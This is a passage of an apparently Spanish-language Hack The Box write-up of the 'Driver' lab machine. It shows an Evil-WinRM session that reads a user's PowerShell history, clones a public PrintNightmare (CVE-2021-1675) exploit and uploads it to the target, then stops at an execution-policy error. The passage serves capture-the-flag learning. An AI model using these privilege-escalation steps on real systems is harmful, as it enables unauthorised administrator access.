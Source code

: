 - Lo mas interesante de todo lo que nos reporto el script fue el historial de `Powershell` del usuario con el que estamos y encontramos que ejecuta 3 comandos.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```

- Vemos que en el primero comando lo que esta intenta hacer es añadir una impresora, si buscamos vulnerabilidades para eso encontramos el siguiente <https://github.com/calebstewart/CVE-2021-1675> que lo que hace es que podemos crear un usuario Administrador donde nosotros indicamos el usuario y la contraseña.

```bash
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 40 (delta 1), reused 1 (delta 1), pack-reused 37
Receiving objects: 100% (40/40), 127.17 KiB | 458.00 KiB/s, done.
Resolving deltas: 100% (9/9), done.
➜  content cd CVE-2021-1675
➜  CVE-2021-1675 git:(main) ls
CVE-2021-1675.ps1  README.md  nightmare-dll
```

- Ahora lo subimos.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> upload CVE-2021-1675.ps1

Info: Uploading /home/miguel/Hackthebox/Driver/content/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1

Error: Upload failed. Check filenames or paths: No such file or directory - No such file or directory /home/miguel/Hackthebox/Driver/content/CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> upload CVE-2021-1675.ps1

Info: Uploading /home/miguel/Hackthebox/Driver/content/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1

Data: 238080 bytes of 238080 bytes copied

Info: Upload successful!
```

- Si importamos el modulo vemos que no podemos por una política definida en el sistema.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\CVE-2021-1675.ps1
File C:\Users\tony\Documents\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```
